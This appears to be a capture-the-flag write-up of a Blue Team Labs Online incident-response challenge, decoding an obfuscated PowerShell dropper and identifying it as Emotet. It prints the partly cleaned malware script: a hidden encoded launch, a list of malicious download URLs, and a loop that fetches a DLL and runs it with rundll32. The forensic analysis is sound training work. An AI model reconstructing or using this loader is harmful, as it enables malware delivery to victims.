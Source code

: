 ```yaml
---
title: "Malicious PowerShell Analysis BTLO "
date: 2021-10-09T17:30:30
categories:
  - challenge
tags:
  - Blue Team Labs Online
  - Forensics
  - Incident Response
classes: wide
---
```

Continuing the skill-set diversification, a retired incident response challenge from [Blue Team Labs Online.](https://blueteamlabs.online/home/challenge/7)

>*"Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack?*"

The challenge has guided questions to answer to obtain points.

---

First we unzip the challenge:

<img src="/assets/images/malpowerbtlo/mal1.PNG" alt="Unzipping the file.">

Then have a look at the contents!:

<img src="/assets/images/malpowerbtlo/mal2.PNG" alt="Looking at the contents.">

Welp.

<h4>De-obfuscation</h4>

It appears to be obfuscated powershell. According to [malware.news](https://malware.news/t/deobfuscating-powershell-putting-the-toothpaste-back-in-the-tube/23509):

>*"PowerShell commands can be logged and script files can be captured for analysis. This gives us a chance to perform after-action forensics to see what the attacker was up to and if they were successful. Unfortunately, attackers don’t like making this easy, so they will often obfuscate and encode commands to deter and slow down analysts."*

The opening line of the `ps_script.txt` log shows:

```powershell
POwersheLL  -w hidden -ENCOD
```
It seems powershell is case-insensitive, and autocompletes flags. 

These commands show that the powershell window was hidden with `-w hidden` and then its commands were encoded into base64 with `-ENCOD` which is encode. 

We throw the output of the `.txt` file into GCHQ's CyberChef and convert from base64:

<img src="/assets/images/malpowerbtlo/mal3.PNG" alt="Converting from base64.">

It still looks pretty difficult to read, searching around the web suggests that we try and remove null bytes from the output like so:

<img src="/assets/images/malpowerbtlo/mal4.PNG" alt="Removing null bytes.">

After removing null bytes these commands are still hard to read, more research suggests the use of CyberChef's `Generic Code Beautify`. From here we try to remove as much as we can through `find/replace` like so:

<img src="/assets/images/malpowerbtlo/mal5.PNG" alt="Using Find/replace to remove seemingly useless items.">

The final result is shown below:

```powershell
sEtMKu[TYPe]01243-FSYsTeMioDIORYrECt;
SeT-iTEMvaRIabLEmBu[TYPe]680345271-fSteMGerManetseRVIcepOintsNAY;
$ErrorActionPreference=SilentlyContinue;
$Cvmmq4o=$Q26L[char]64$E16H;
$J16J=N_0P;
DIrVariabLEMkuVaLUecREAtedIRECTORy$HOME0Db_bh300Yf5be5g0-F[chAR]92;
$C39Y=U68S;
vARiaBLembu-VAlueoNsEcuRITYproTocol=Tls12;
$F35I=I4_B;
$Swrp6tc=A69S;
$X27H=C33O;
$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;
$K47V=R49G;
$B9fhbyv=]anw[3s//admintkcom/wp-admin/L/@]anw[3s//mikegeerinckcom/c/YYsa/@]anw[3//freelancerwebdesignerhyderabadcom/cgi-bin/S/@]anw[3//etdogcom/wp-content/nu/@]anw[3s//wwwhintupcombr/wp-content/dE/@]anw[3//wwwstmarounsnsweduau/paypal/b8G/@]anw[3//wmmcdevelopnet/content/6F2gd/REplACe]anw[3[array]sdswhttp3d[1]sPLIT$C83R$Cvmmq4o$F10Q;
$Q52M=P05K;
foreach$Bm5pw6zin$B9fhbyv
try
&New-ObjectSysTemnEtWEBcLIeNTdoWNlOaDFIlE$Bm5pw6z$Imd1yck;
$Z10L=A92Q;
If&Get-Item$Imd1ycklenGTH-ge35698
&rundll32$Imd1yckControl_RunDLLTOStRiNG;
$R65I=Z09B;
break;
$K7_H=F12U

catch

$W54I=V95O
```

Now lets try and answer the questions!

<h4>What security protocol is being used for the communication with a malicious domain? </h4>

`sEcuRITYproTocol=Tls12` means TLS 1.2.

<h4>What directory does the obfuscated PowerShell create? (Starting from \HOME\)</h4>

This took be quite a bit to figure out, but reading the line where HOME is present made it clearer:

`$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92`

We see `replace uoh [string][char]92`. Looking at char 92 in an ASCII table:

<img src="/assets/images/malpowerbtlo/mal6.PNG" alt="92 = \.">

So we can read `$HOMEUOHDb_bh30UOHYf5be5gUOH` as `\HOME\Db_bh30\Yf5be5g\`. 

<h4>What file is being downloaded (full name)?</h4>

Looking back at our HOME line we see: 

`$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;`

Since we now know that the directory the script creates is `\HOME\Db_bh30\Yf5be5g\` anything after `[StrInG][chAr]92` should be our downloaded file. 

Thus `$Swrp6tcdll` is the downloaded file, dll seems to be the file extension. We can try `Swrp6tc.dll`. 

However this is not correct. If we search for other references to `Swrp6tc` in the logs we find `$Swrp6tc=A69S;`, `$Swrp6tc` is a variable! This should have been obvious from the `$` sign in front of it. 

We instead try `A69S.dll` which is correct!

<h4>What is used to execute the downloaded file?</h4>

Now that we know it is a dll file, we see `&rundll32$Imd1yckControl_RunDLLTOStRiNG;` and see if `rundll32` is the `.exe` used to execute the file. 

It is correct!

<h4>What is the domain name of the URI ending in ‘/6F2gd/’</h4>

Searching through our logs we see the line `wmmcdevelopnet/content/6F2gd`. The URI doesn't make much sense without the `.` which we removed earlier through find/replace. 

Heading back to CyberChef to add them back in we see: `wm.mcdevelop.net/content/6F2gd` meaning the answer is `wm.mcdevelop.net`.

<h4>Based on the analysis of the obfuscated code, what is the name of the malware?</h4>

Googling around for the `A69S.dll` we come across MalwarebBazaar's [database](https://bazaar.abuse.ch/sample/23be1cb22c94fe77cea5f8e7fef6710eeef5a23e7e7eb9b9dd53f56d1b954269/) which suggests that the malware name is `Emotet (aka Heodo)`. We try Emotet and are rewarded with challenge complete!

<img src="/assets/images/malpowerbtlo/mal7.PNG" alt="https://blueteamlabs.online/achievement/share/challenge/14446/7">